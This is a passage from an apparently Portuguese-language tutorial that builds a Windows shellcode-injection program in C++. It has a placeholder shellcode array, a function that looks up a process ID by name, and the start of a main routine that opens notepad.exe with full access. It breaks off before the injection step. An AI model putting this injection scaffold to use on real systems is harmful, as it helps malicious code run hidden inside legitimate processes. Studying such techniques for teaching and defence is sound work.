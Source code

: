 ```cpp
// Aqui podemos colar nossa shellcode copiada como C
unsigned char shellcode[] = { ...SHELLCODE... };
```

Depois, fornecemos o código do `GetProcessIdByName` que será responsável por pegar o nome do executável fornecido pelo código e obter o PID (Process ID) do processo com esse nome.

```cpp
DWORD GetProcessIdByName(const wchar_t* processName)
{
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (snapshot != INVALID_HANDLE_VALUE)
	{
		PROCESSENTRY32W processEntry;
		processEntry.dwSize = sizeof(PROCESSENTRY32W);

		if (Process32FirstW(snapshot, &processEntry))
		{
			do
			{
				if (wcscmp(processEntry.szExeFile, processName) == 0)
				{
					CloseHandle(snapshot);
					return processEntry.th32ProcessID;
				}
			} while (Process32NextW(snapshot, &processEntry));
		}
	}

	CloseHandle(snapshot);
	return 0;
}
```

E, por último, nosso código `main`, que será responsável por todo o trabalho. Lembrando que é uma boa prática, ao criar um código, observar o processo dele mais a fundo. Para isso, vamos colocar "pontos de interrupção" para ter que pressionar Enter para realizar cada etapa do código. Além disso, vamos imprimir no nosso console o endereço de memória alocado e também imprimir o endereço de onde nosso shellcode foi escrito.

```cpp
int main()
{
    try
    {
        // Aqui definimos o nome do processo que vamos querer injetar nossa shellcode.
        const wchar_t* processName = L"notepad.exe";
        DWORD processId = GetProcessIdByName(processName);

        std::cout << "Processo encontrado com PID: " << processId << std::endl;
        std::cout << "Presione Enter para abrir o processo alvo." << std::endl;
        std::cin.get(); // Espera o usuário pressionar Enter

        if (processId == 0)
        {
            std::cout << "Processo nao encontrado." << std::endl;
            std::cin.get(); // Espera o usuário pressionar Enter
            return 1;
        }

        // Aqui abrimos o processo escolhido
        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
        if (hProcess == NULL)
        {
            std::cout << "Nao foi possivel abrir o processo." << std::endl;
```